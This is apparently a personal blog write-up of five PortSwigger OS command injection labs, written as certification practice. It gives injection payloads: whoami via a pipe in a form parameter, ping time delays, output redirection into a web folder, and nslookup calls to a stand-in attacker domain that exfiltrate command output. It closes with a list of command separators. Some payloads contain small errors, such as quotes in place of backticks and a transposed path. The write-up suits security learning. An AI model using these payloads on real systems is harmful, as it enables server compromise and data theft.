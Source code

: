 ```yaml
---
title: OS Command Injection - Portswigger Labs
description: OS Command Injection - Portswigger Labs
excerpt:
  Command Injection, allows an attacker to execute operating system (OS) commands on the server that is running an application and typically fully compromise the application and its data.
datetime: 2024-05-09T19:33:07.000+00:00
tags:
  - Command Injection
  - Portswigger
  - Labs
featured: true
category: Tutorial
author: nGbonzini
type: article
coverImage:  https://miro.medium.com/v2/resize:fit:640/format:webp/1*HapzmTCjNvXIff_AsOCIuw.png
coverImageAlt: Microsoft AD
coverImageWidth: "2725"
coverImageHeight: "1400"
ogImage: "/assets/blog/hello-world/cover.jpg"
ogImageAlt: something
language: "English"
---
```

----

As preparation for the eWPTX im going to work through the Portswigger labs. In this post im going to steal... take notes about OS command injection and resolve the labs. Let's get started!!!

## Whats is OS Command Injection ?
OS command injection, allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

## Lab 1 - OS Command Injection, simple case

>This lab contains an OS command injection vulnerability in the product stock checker. The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
To solve the lab, execute the whoami command to determine the name of the current user. 

We go to the page and click in the "View Details" button.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/1.png)

When we do click in "Check Stock",send a request with parameters `productId=1&storeId=2` to `/product/stock`
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/3.png)

We change `storeId=2` for ...
```bash
productId=1&storeId=| whoami
```

and give us the name.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/4.png)

## Blind OS command injection vulnerabilities
### Detecting blind OS command injection using time delays
You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The ping command is a good way to do this, because lets you specify the number of ICMP packets to send.

```
& ping -c 10 127.0.0.1 &
```

## Lab 2 - Blind OS command injection with time delays
>This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay. 

We go to the Submit feedback page
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/1.png)

In the form put any data, send and capture with Burpsuite.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/3.png)

After testing in all parameters with the payload ...
```
| ping -c 10 127.0.0.1 &
```
URL encoded ...
```
|+ping+-c+10+127.0.0.1+%26
```

![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/4.png)

We see a delay of 9,440 milliseconds 🥳
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/5.png)

## Exploiting blind OS command injection by redirecting output
You can redirect the output from the injected command into a file. The > character sends the output from the whoami command to the specified file. For example:

```
& whoami > /var/www/static/whoami.txt &
```

## Lab 3 - Blind OS command injection with output redirection

> This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at: `/var/www/images/` The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. To solve the lab, execute the whoami command and retrieve the output. 

Same procedure like the lab before: go to the page of Submit Feedback,fill the form, send it, capture the request.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/1.png)

We search for the parameter where inject the command
```
| whoami > /var/images/www/quiensoy.txt &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/3.png)

## Exploiting Blind OS Command Injection Using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
```
& nslookup kgji2ohoyw.web-attacker.com &
```

## Lab 4 - Blind OS Command Injection with out-of-band Interaction

> This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

Same procedure 😮‍💨.....Copy the url from BurpCollaborator (Buy it! 😉)

```
| nslookup 2be44phd8284tgglwr1sf7ytekkb81wq.oastify.com &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/1.png)
And uala!
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/2.png)

## Next 

The out-of-band channel provides an easy way to exfiltrate the output from injected commands
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This causes a DNS lookup to the attacker's domain containing the result of the whoami command
```
wwwuser.kgji2ohoyw.web-attacker.com
```

## Lab 5 - Blind OS Command Injection with out-of-band data exfiltration

> This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain. To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

🏃‍♀️Go to the page of Submit Feedback,🏃‍♀️ fill the form, 🏃‍♀️ send it, 🏃‍♀️capture the request, copy the link from Burp Collaborator (B - U -Y -- I - T - ! 😉⬇️)

```
| nslookup 'whoami' .blablablablabla.whatever.com &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/1.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/3.png)

## Ways of injecting OS Commands

The following command separators work on both Windows and Unix-based systems
```
&
&&
|
||
```

Unix
```
;
0x0a
\n
```

I hope you find it useful.👨‍💻

## Resources

[Portswigger](https://portswigger.net/web-security/os-command-injection)  

[HackTheBox](https://academy.hackthebox.com/module/details/109)  

[INE](https://ine.com/blog/command-injection)  

